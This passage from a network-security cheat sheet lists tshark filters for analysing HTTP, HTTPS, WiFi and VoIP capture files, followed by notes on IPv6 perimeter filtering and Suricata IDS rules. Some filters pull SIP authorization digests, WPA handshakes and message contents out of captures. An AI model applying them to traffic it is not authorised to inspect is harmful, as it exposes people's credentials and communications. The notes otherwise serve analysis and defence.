  - Type of OS 192.168.252.128 is using: `tshark -r HTTP_traffic.pcap -Y "ip.src==192.168.252.128 && http" -Tfields -e http.user_agent`
- HTTPS
  - Only show SSL traffic?: `tshark -r HTTPS_traffic.pcap -Y 'ssl'`
  - Only print the source IP and destination IP for all SSL handshake packets: `tshark -r HTTPS_traffic.pcap -Y "ssl.handshake" -Tfields -e ip.src -e ip.dst`
  - List issuer name for all SSL certificates exchanged: `tshark -r HTTPS_traffic.pcap -Y "ssl.handshake.certificate" -Tfields -e x509sat.printableString`
  - Print the IP addresses of all servers accessed over SSL: `tshark -r HTTPS_traffic.pcap -Y "ssl && ssl.handshake.type==1" -Tfields -e ip.dst`
  - IP addresses associated with Ask Ubuntu servers (askubuntu.com): `tshark -r HTTPS_traffic.pcap -Y "ip contains askubuntu"`
  - The IP address of the user who interacted with with Ask Ubuntu servers (askubuntu.com)
  `tshark -r HTTPS_traffic.pcap -Y "ip.dst==151.101.1.69 || ip.dst==151.101.193.69 || ip.dst==151.101.129.69 || ip.dst==151.101.65.69" -Tfields -e ip.src`
  - What DNS servers were used: `tshark -r HTTPS_traffic.pcap -Y "dns && dns.flags.response==0" -Tfields -e ip.dst`
  - Name of the antivirus solution: `tshark -r HTTPS_traffic.pcap -Y "ip contains avast" -Tfields -e ip.src`
- WiFi
  - Show only WiFi traffic: `tshark -r WiFi_traffic.pcap -Y "wlan"`
  - View the deauthentication packets: `tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==0x000c"`
  - Display WPA handshake packets: `tshark -r WiFi_traffic.pcap -Y "eapol"`
  - Print the SSID and BSSID values for all beacon frames: `tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==8" -Tfields -e wlan.ssid -e wlan.bssid`
  - What is BSSID of SSID "LazyArtists": `tshark -r WiFi_traffic.pcap -Y "wlan.ssid==LazyArtists" -Tfields -e wlan.bssid`
  - Channel of SSID "Home_Network": `tshark -r WiFi_traffic.pcap -Y "wlan.ssid==Home_Network" -Tfields -e wlan_radio.channel`
  - Devices that received deauth messages: `tshark -r WiFi_traffic.pcap -Y "wlan.fc.type_subtype==0x000c" -Tfields -e wlan.ra`
  - Which device does MAC 5c:51:88:31:a0:3b belongs to: `tshark -r WiFi_traffic.pcap -Y "wlan.ta==5c:51:88:31:a0:3b && http" -Tfields -e http.user_agent`
  - Beacon frames present: `tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008'`
  - Unique list of all AP BSSIDs: `tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' -T fields -e wlan.bssid | sort  | uniq`
  - Unique list of all AP SSIDs: `tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' -T fields -e wlan.ssid | sort  | uniq`
  - Only non-null SSIDs: `tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008 && !(wlan.tag.length ==0)' -T fields -e wlan.ssid | sort  | uniq`
  - Unique list of SSID and BSSIDs side by side for all AP networks: `tshark -r WiFi_traffic.pcap -Y 'wlan.fc.type_subtype == 0x0008' -T fields -e wlan.ssid -e wlan.bssid | sort  | uniq`
- VoIP
  - Show VoIP traffic: `tshark -r VoIP_traffic.pcap -Y "sip or rtp"`
  - Print all REGISTER packets: `tshark -r VoIP_traffic.pcap -Y "sip.Method==REGISTER"`
  - Only print the source IP, sender extension and authorization digest response for REGISTER packets: `tshark -r VoIP_traffic.pcap -Y "sip.Method==REGISTER" -Tfields -e ip.src -e sip.from.user -e sip.auth.digest.response`
  - Print all codecs being used by RTP protocol: `tshark -r VoIP_traffic.pcap -Y "sdp" -Tfields -e sdp.media`
  - User who is using the Zoiper VoIP client: `tshark -r VoIP_traffic.pcap -Y "sip contains Zoiper" -Tfields -e ip.src`
  - IP address of the SIP server used to place calls: `tshark -r VoIP_traffic.pcap -Y "sip.Method==REGISTER" -Tfields -e ip.dst`
  - Content of the text message sent to +918108591527?: `tshark -r VoIP_traffic.pcap -Y "sip.Method == MESSAGE" -V             (Read the content)`
  - Extensions completed a call successfully: `tshark -r VoIP_traffic.pcap -Y "sip.Method==BYE" -Tfields -e sip.from.user -e sip.to.user`

## Defense 

- Phishing Blacklist: <https://www.phishing.army/>
- Open Source Security (OSSEC) is a free, open-source, host-based intrusion detection system (HIDS)
  - log analysis portion of OSSEC as a log-based intrusion detection system (LIDS)
  - OSSEC is a virtual appliance based on CentOS and includes Elastic search-Logstash-Kibana (ELK)
  - Atomic rules are based on a single event occurring, while a composite rule is based on patterns across multiple logs.
- Hamachi by LogMeIn is a cloud-based, professional-level application that allows you to easily create a virtual private network (VPN) 

### IPV6

- Disallow traffic from unallocated IP address spaces
- Implement Anti-Spoofing perimeter ACL:
  - No packet with a source address of your network allocation can ENTER your network.
  - No packet with a destination address of your network allocation can LEAVE your network.
- Two categories of traffic
  - Traffic initiated from perimeter security device
  - Traffic that is in-transit across perimeter
- Transit Traffic
  - Transit Traffic Category Recommendations
    - Start with a DENY ALL approach, and then allow selectively. Ensures that all unassigned/experimental types are DROPPED.
    - Allow Type 1: Destination Unreachable. Filter selectively allowing only specific codes such as code 4 - port unreachable.
    - Allow Type 2: Packet too large. (Do not break path MTU discovery)
    - Allow Type 3, Code 0 only. (TTL/Hop limit expired)
    - Allow Type 4, Codes 0 and 1 only related to header errors.
  - Transit traffic filtering continued…
    - Optionally allow ICMP types 128/129 (echo request/reply) based on local ICMP security policy.
    - Allow ICMP types 144 through 147 ONLY if your IPv6 network is “mobility enabled”. Many may choose to leave this in default drop state.
    - Optionally allow ICMP Multicast related messages (types 151 - 153). 
      - ONLY applicable if you participate in global multicast sourcing.
  - ICMP type 137 (Redirect) represents a direct security threat and should always be dropped at the perimeter.
- Non-transit 
  - Traffic initiated from perimeter security devices
  - Again start with a DENY ALL policy
  - Use the same recommendations as transit above with the exception of the mobility enabled class
  - Additional messages to ALLOW should be:
    - Types 133/134: Router solicitation / advertisement
    - Types 135/136: Neighbor solicitation / advertisement
    - Types 141/142: Inverse neighbor solicitation / advertisement
- Multicast Filtering
  - Likely assumption for most is to not participate in global/inter-domain multicast
    - Any packet with a multicast source address should be dropped
    - Reserved and unused multicast destinations should be dropped.
    - Probably most other multicast destinations will be blocked in a perimeter context.
      - You don’t want any site or organization local traffic crossing the perimeter
      - Realm-local scoped traffic will be confined to specific technologies.
      - The decision to drop realm-local will have to be policy based.
    - Global multicast should be dropped if not participating inter-domain.
- Protocol Normalization
  - IPv6 has a protocol header field labeled “Next Header”.
  - Normal OSI Layer 4 headers are called an “Upper Layer Header”
  - There can be chained “Extension Headers” in the frame before UL Header.

### IDS/IPS - Suricata
- Installation:
    ```
    sudo add-apt-repository ppa:oisf/suricata-stable 
    sudo apt-get update
    sudo apt-get install suricata
    ```
- Update: `suricata-update`
  - With cron: `0 0 * * * /usr/bin/suricata-update && kill -USR2 $(pidof suricata) > /dev/null 2>&1`
    ```
    suricata-update update-sources
    suricata-update list-sources
    suricata-update enable-source <name>
    suricata-update add-source <name> <url>
    suricata-update remove-source <name>
    suricata-update list-enabled-sources
    ```
- Reload: `kill -USR2 $(pidof suricata)`
- Config: `/etc/suricata/suricata.yaml`
  - `HOME_NET` – Internal network which is to be protected
  - `EXTERNAL_NET` – External network;
  - `af-packet interface` – Network interface which Suricata should use for monitoring.
- Logs: `/var/log/suricata`
  - `eve.json`: Network events and alerts in Extensible Event Format
  - `suricata.log`: Service messages 
  - `fast.log`: Network events and alerts in single line formatted.
- Rules: `/var/lib/suricata/rules` (OOTB rules are at `/etc/suricata/rules`)
  - Referenced from config file at `rule-files section`.
- Rule Types:
  - `Pass` – let the packet through without generating an alert
  - `Drop` – if matched, drop and logd
  - `Reject` – similarly `drop`, and both the sender and receiver will receive a reject packet
  - `Alert` – the packet is allowed through but an alert will be generated
- Supported porotocals: <https://suricata.readthedocs.io/en/suricata-4.1.4/rules/intro.html#protocol>
- Rule format:
  - `"Source IP" "Source port" -> "Destination IP" "Destination port"`
  - `"Source IP" "Source port" <> "Destination IP" "Destination port"`
  - Example: `$EXTERNAL_NET any -> $HOME_NET 22`
- Options:
  - `msg` – information
  - `sid` – unique ID number of the rule
  - `rev` – version of the rule (incremented by 1 when the rule is updated)
  - `(msg:"Suspicious connection @ 1111"; sid:1111; rev:1;)`
- Example Rule:
    ```
    alert tcp $EXTERNAL_NET any -> $HOME_NET 3306 (msg:"ET SCAN Suspicious inbound to mySQL port 3306"; flow:to_server; flags:S; threshold: type limit, count 5, seconds 60, track by_src; metadata: former_category POLICY; reference:url,doc.emergingthreats.net/2010937; classtype:bad-unknown; sid:2010937; rev:3; metadata:created_at 2010_07_30, updated_at 2018_03_27;) 
    drop tcp any any -> 10.33.33.1 any (msg: "TCP packet to malicious host, Drop"; sid:10001;)
    drop tcp 10.33.33.1 any -> any any (msg: "TCP packet from malicious host, Drop"; sid:10002;)
    drop udp any any -> 10.33.33.1 any (msg: "UDP packet to malicious host, Drop"; sid:10003;)
    drop udp 10.33.33.1 any -> any any (msg: "UDP packet from malicious host, Drop"; sid:10004;)
    ```
- `NFQUEUE`: iptables and ip6tables target which delegates the decision on packets to a userspace software. 
  - When sudicata is installed in gateway:
    ```
    sudo iptables -I FORWARD -j NFQUEUE
    ```
  - When installed on the host that should be protected:
    ```
    sudo iptables -I INPUT -j NFQUEUE
    sudo iptables -I OUTPUT -j NFQUEUE
    ```
  - Example:
    ```
    iptables -t mangle -I PREROUTING -p tcp -m tcp --dport 80 -j NFQUEUE --queue-num 0
    iptables -t mangle -I PREROUTING -p tcp -m tcp --sport 80 -j NFQUEUE --queue-num 0
    iptables -t mangle -I PREROUTING -p udp -m udp --dport 53 -j NFQUEUE --queue-num 0
    iptables -t mangle -I PREROUTING -p udp -m udp --sport 53 -j NFQUEUE --queue-num 0
    ``` 
- Modes:
    ```
    nfq:
    mode: accept/repeat/route
    repeat_mark: 1             # repeat mode option
    repeat_mask: 1             # repeat mode option
    route_queue: 2             # route mode option
    ```
  - `accept`: the packet will not be inspected by the rest of the iptables rules 
  - `repeat`: the packets will be marked by Suricata and re-injected to the first rule of iptables. Looping is avoided by:
    - `iptables -I FORWARD -m mark ! --mark $MARK/$MASK -j NFQUEUE`
  - `route`: make sure the packet will be sent to another tool after being processed by Suricata
- Reload rules: `suricatasc -c reload-rules`

## References

- [Beginner's Guide to Impacket Tool kit (Part 1)](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)
- Let's code a TCP/IP stack, 1: Ethernet & ARP: <http://www.saminiir.com/lets-code-tcp-ip-stack-1-ethernet-arp/>
- Let's code a TCP/IP stack, 2: IPv4 & ICMPv4: <http://www.saminiir.com/lets-code-tcp-ip-stack-2-ipv4-icmpv4/>
- Let's code a TCP/IP stack, 3: TCP Basics & Handshake: <http://www.saminiir.com/lets-code-tcp-ip-stack-3-tcp-handshake/>
- Practical man-in-the-middle attacks in computer networks - Matˇej Plch: <https://is.muni.cz/th/s8uf2/thesis.pdf>
